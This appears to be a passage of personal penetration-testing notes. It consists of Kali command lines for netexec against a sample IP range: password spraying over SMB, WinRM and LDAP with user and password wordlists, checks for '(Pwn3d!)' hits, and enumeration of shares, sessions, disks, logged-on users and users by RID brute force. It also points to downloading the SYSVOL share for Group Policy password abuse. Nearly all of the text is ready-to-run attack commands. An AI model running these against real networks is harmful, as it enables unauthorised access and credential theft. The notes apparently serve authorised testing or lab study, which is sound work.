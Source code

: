 ```bash - kali
netexec winrm -h
```

#### 11 SwisArmy netexec Password Spraying - supports hash passing!
Assuming our target ip range is from 192.168.1.50 to 192.168.1.55.

```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --continue-on-success
```

Look for any results that say "(Pwn3d!)"

Use a user.txt and password.txt wordlists.
```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u user.txt -p password.txt --continue-on-success
```

```bash - kali
netexec winrm 192.168.1.50-192.168.1.55 -u user.txt -p password.txt --continue-on-success
```

```bash - kali
netexec ldap 192.168.1.50-192.168.1.55 -u user.txt -p password.txt --continue-on-success
```

#### 12 SwisArmy netexec Enum 1 1
```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --shares
```
Look for READ / WRITE privs.

Look for READ on SYSVOL.

[[Port 139 445 - SMB ~#using smbclient to download all files]]
Download all the files in SYSVOL share.

[[10._Abusing GPP 1]]

[[11._Abusing GPP 2]]

```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --sessions
```

```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --disks
```

```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --loggedon-users
```

Check if any loggedon users are Domian Admins from our LDAPDomianDump finding.
```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --users
```

#### 13 SwisArmy netexec Enum 1 2
```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --rid-brute
```
